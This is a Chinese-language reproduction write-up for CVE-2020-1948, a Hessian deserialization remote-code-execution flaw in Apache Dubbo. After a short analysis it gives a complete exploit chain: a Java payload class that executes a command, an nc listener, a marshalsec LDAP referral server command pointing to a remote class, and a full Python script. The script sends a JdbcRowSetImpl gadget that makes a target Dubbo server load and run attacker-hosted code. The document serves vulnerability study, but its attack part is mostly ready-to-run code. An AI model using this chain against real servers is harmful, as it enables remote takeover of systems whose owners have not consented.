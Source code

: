 （CVE-2020-1948）Apache Dubbo Hessian 反序列化漏洞
==================================================

一、漏洞简介
------------

攻击者可以发送带有无法识别的服务名或方法名及某些恶意参数负载的RPC请求，当恶意参数被反序列化时将导致代码执行

二、漏洞影响
------------

2.7.0 \<= Apache Dubbo \<= 2.7.7

2.6.0 \<= Apache Dubbo \<= 2.6.7

Apache Dubbo 全部 2.5.x 版本

三、复现过程
------------

### 漏洞分析

Hessian是一个轻量级的RPC框架。它基于HTTP协议传输，使用Hessian二进制序列化，对于数据包比较大的情况比较友好。使用hession的web项目需要配置web.xml,映射`com.caucho.hessian.server.HessianServlet`之相应的路径

![1.png](resource/(CVE-2020-1948)ApacheDubboHessian反序列化漏洞/media/rId25.png)

Java客户端可以很方便的调用服务器上的方法,如下

![2.png](resource/(CVE-2020-1948)ApacheDubboHessian反序列化漏洞/media/rId26.png)

查看`com.caucho.hessian.server.HessianServlet`的代码service方法处理客户端发来的http请求,调用

![3.png](resource/(CVE-2020-1948)ApacheDubboHessian反序列化漏洞/media/rId27.png)

![4.png](resource/(CVE-2020-1948)ApacheDubboHessian反序列化漏洞/media/rId28.png)

调用HessianSkeleton的invoke方法,将从客户端发来的数据流中读取对象

![5.png](resource/(CVE-2020-1948)ApacheDubboHessian反序列化漏洞/media/rId29.png)

看代码里面好像没有什么黑白名单过滤机制通过抓取请求包,分析,构造请求包,将marshalsec工具生成的Resion
payload发送给服务器下面是构造请求包的`CVE-2020-1948.py`代码

![6.png](resource/(CVE-2020-1948)ApacheDubboHessian反序列化漏洞/media/rId30.png)

利用图

![7.png](resource/(CVE-2020-1948)ApacheDubboHessian反序列化漏洞/media/rId31.png)

![8.png](resource/(CVE-2020-1948)ApacheDubboHessian反序列化漏洞/media/rId32.png)

### 漏洞复现

#### 构造poc

    ## exp.java
    import javax.naming.Context;
    import javax.naming.Name;
    import javax.naming.spi.ObjectFactory;
    import java.util.Hashtable;

    public class exp {
        public exp(){
            try {
                java.lang.Runtime.getRuntime().exec("calc.exe");
            } catch (java.io.IOException e) {
                e.printStackTrace();
            }
        }
    }

> 编译poc

    javac exp.java

#### nc监听

    nc -lvvp 12345

#### 服务器开启web服务，并将生成好的exp.class放置web目录

#### 启动 LDAP 代理服务

    java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://www.0-sec.org/#exp 81

> marshalsec 下载：

    https://download.0-sec.org/Web安全/java反序列化漏洞/marshalsec-0.0.3-SNAPSHOT-all.jar

#### py脚本测试

> 安装依赖包

    pip install dubbo-py

> 运行

    python poc.py www.target.com 12345 ldap://www.yourweb:81/exp

> 除了通过返回信息来判断外，观察 LDAP
> 代理是否出现请求转发也是判断POC利用是否成功的重要依据:

    # LDAP Refer Server Output
    Send LDAP reference result for exp redirecting to http://www.0-sec.org/exp.class
    # poc.py
    # -*- coding: utf-8 -*-

    import sys

    from dubbo.codec.hessian2 import Decoder,new_object
    from dubbo.client import DubboClient

    if len(sys.argv) < 4:
      print('Usage: python {} DUBBO_HOST DUBBO_PORT LDAP_URL'.format(sys.argv[0]))
      print('\nExample:\n\n- python {} 1.1.1.1 12345 ldap://1.1.1.6:80/exp'.format(sys.argv[0]))
      sys.exit()

    client = DubboClient(sys.argv[1], int(sys.argv[2]))

    JdbcRowSetImpl=new_object(
      'com.sun.rowset.JdbcRowSetImpl',
      dataSource=sys.argv[3],
      strMatchColumns=["foo"]
      )
    JdbcRowSetImplClass=new_object(
      'java.lang.Class',
      name="com.sun.rowset.JdbcRowSetImpl",
      )
    toStringBean=new_object(
      'com.rometools.rome.feed.impl.ToStringBean',
      beanClass=JdbcRowSetImplClass,
      obj=JdbcRowSetImpl
      )

    resp = client.send_request_and_return_response(
      service_name='org.apache.dubbo.spring.boot.sample.consumer.DemoService',
      # 此处可以是 $invoke、$invokeSync、$echo 等，通杀 2.7.7 及 CVE 公布的所有版本。
      method_name='$invoke',
      args=[toStringBean])

    output = str(resp)
    if 'Fail to decode request due to: RpcInvocation' in output:
      print('[!] Target maybe not support deserialization.')
    elif 'EXCEPTION: Could not complete class com.sun.rowset.JdbcRowSetImpl.toString()' in output:
       print('[+] Succeed.')
    else:
      print('[!] Output:')
      print(output)
      print('[!] Target maybe not use dubbo-remoting library.')

参考链接
--------

> https://github.com/DSO-Lab/Dubbo-CVE-2020-1948/wiki
